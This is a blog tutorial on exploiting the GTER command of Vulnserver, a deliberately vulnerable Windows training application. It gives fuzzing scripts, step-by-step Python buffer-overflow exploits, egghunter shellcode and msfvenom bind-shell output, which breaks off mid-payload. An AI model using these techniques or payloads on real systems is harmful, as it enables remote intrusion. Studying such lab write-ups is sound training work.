:slug: vulnserver-gter/
:date: 2020-06-11
:category: attacks
:subtitle: Hunting eggs
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Gabe Pierce on Unsplash
:description: Vulnserver is a VbD application focused to help people practice the exploiting skills. This post will describe the steps taken to exploit the GTER command. This post describes a technique called "Egghunting" used when there are space restrictions for our exploitation.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/2w46Lv6EYT4

= Vulnserver GTER Exploitation

As we saw on the link:../vulnserver-trun/[previous post], vulnserver is a 
VbD (Vulnerable-by-Design) application that was designed to help you
sharpen the Windows exploitation skills.

Our link:../vulnserver-trun/[previous post] described the exploitation
of TRUN command using a simple EIP overwrite technique, as we had
virtually no constrains for our payload. However, exploiting the 
GTER command will not be as straightforward.

WARNING: Do NOT run `vulnserver.exe` on a sensitive machine or on 
a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options, the default used port will
be *TCP/9999*.



We can check the behavior of the `GTER` command by issuing the suggested
syntax.



Ok, it's fuzz time.

== Fuzzing GTER

As we did with the `TRUN` command before, we know now the syntax needed for
the `GTER` command. And again, 
we'll be using link:https://github.com/guilhermeferreira/spikepp:[Spike]
to help us with our fuzzing.

As `GTER` uses a similar syntax as the `TRUN` command, we can reuse
the Spike script created in our previous post and just change the
command

.gter.spk
[source,c]
----
s_string("GTER ");
s_string_variable("*");
----
Remember that the `s_string` command will send an immutable string to 
the fuzzed protocol and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

Now we can send the fuzz attack to the victim machine:



Ugh! After a few iterations `vulnserver.exe` crashed and it seems 
that it happened when we sent 5060 bytes of data.
Let's check the offending payload on `Wireshark`:



Let's create a PoC (Proof-of-Concept) file with that information:

.exploit.py
[source,python]
----
mport socket

HOST = '192.168.241.1'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 5060
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

This time, let's attach `vulnserver.exe` to Immunity Debugger.

So, let's run the initial exploit and see what happens:



Look at that! We replicated the crash!



Look at the state of the application at the moment of the crash.
The first thing to notice is that the EIP register has the value `41414141`
which means that we effectively overwrote it with our buffer of `A`.
That's good news. However if you see in the stack window (bottom right),
we only have 20 bytes after the ESP pointer, so if we do a `JMP ESP`, we
will only have 20 bytes for working. That's simply not enough space for 
anything complex.

However, if we look at the dump window (bottom left), we have a broader
space (around 0x90 or 144 bytes) at the beggining of our buffer, which 
is again not enough for something like a reverse shell, so we need to 
be creative here. Actually, we can fit a reverse shell in that space,
but we need to carve it manually by reusing already loaded WinSock
modules of `vulnserver`, but that will be part of another post.

First things first.

We need to calculate the exact offset on which EIP gets overwritten.
To do that, we will use `pattern_create.rb` from `Metasploit` to create a 
cyclic pattern.

.Running pattern_create.rb
[source,bash]
----
# This will only work on Kali Linux
$ msf-pattern_create -l 400
----



Let's update the exploit with that pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.241.1'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

And we run the exploit again:



This time, EIP has the value `41396541`. Let's check
the offset on our cyclic pattern

.Running pattern_offset.rb
[source,bash]
----
# This will only work on Kali Linux
$ msf-pattern_offset -q 41396541
[*] Exact match at offset 147
----

Great, that tells us that the EIP gets overwritten starting on the *147*
byte of our buffer. Let's update the exploit to check the offset:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.241.1'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    b'B' * 4 +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

Let's run the exploit. If EIP gets the value `42424242` which are the 
four bytes of our `B` buffer, we got it right:



Whoohooo! Now we can start exploiting this.

== Exploiting

If we check the state of the application after the crash, we can see that
we can jump to ESP to gain control of the execution flow. 

Let's use `mona.py` plugin to do that.

.mona looking for JMP ESP
[source,bash]
----
! mona jmp -r esp -o -cp nonull
----

This will tell `mona` to look for the instruction `JMP ESP` and will 
exclude DLL from the OS.



We will pick the `JMP ESP` instruction at `625011C7`
Let's update the exploit and replace the four `B` with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.241.1'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

Let's verify this:



Great!

But like everything can't be so glorious, we landed on our
`C` buffer which contains 20 bytes.
We need to move to the the buffer our `A` buffer which holds
around 144 bytes to work.

== Jump around

To get around of this space constrain, we need to jump to our bigger
buffer.

For jumping, we can use the unconditional jump instruction found in
X86 architecture called `JMP` that will divert the execution flow
to the desired address. We also need to know where to jump.

Let's look at the follow image which is the resulting location after
our `JMP ESP` execution:



As we can see, we are in the next instruction after the `JMP ESP`
at the address `00CBF9C8` (This is a stack address so it will change
everytime we run the application), and we see that we have only 
20 bytes to work.

If we scroll up, we can see that the buffer of `A`, starts at 
`00CBF931`:



So we need to do a relative jump backwards. Using the debugger, we can
easily calculate the offset:



As you can see, the resulting bytes are `E9 64 FF FF FF`. Let's update
our exploit with that jump:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.241.1'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

And let's check it



Great! We were able to jump to the start of our buffer.
But what now? On 147 bytes it's hard to include a working reverse shell.
However, there's a trick we can use that will have to do with eggs.

== Egghunter

An egghunter is a little shellcode (commonly around 32 bytes) that can
be injected on our payload.
It's an special shellcode because it will not execute anything, but also
will search the entire memory for the location of the desired code
to execute.

But how will it know what to execute? It will look for a tag that
will be prepended to our shellcode, also called the `egg` and once
it find that `egg`, it will execute any code that follows.

Let's look it in action.

First, we need to create or egghunter shellcode:

.Creating egghunter
[source,bash]
----
$ msf-egghunter -e w00t -f python -v EGGHUNTER
EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
----

Note that the configured egg is `w00t`. However, to make the
searching more effective, it is designed to  look for
a double instance of that tag, that means `w00tw00t`.
Let's update our exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.241.1'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

What will happen is the following:

. Our buffer will be injected.
. The `JMP ESP` will be executed.
. Next the backwards jump will be executed and land directly to our
egghunter.
. The egghunter will iterate through all the memory looking for
the tag `w00tw00t`.
. When the egghunter finds the tag, it will execute anything that
follows that tag.

So, the only thing that's missing is our shellcode. Let's create one:

.Creating shellcode
[source,bash]
----
$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
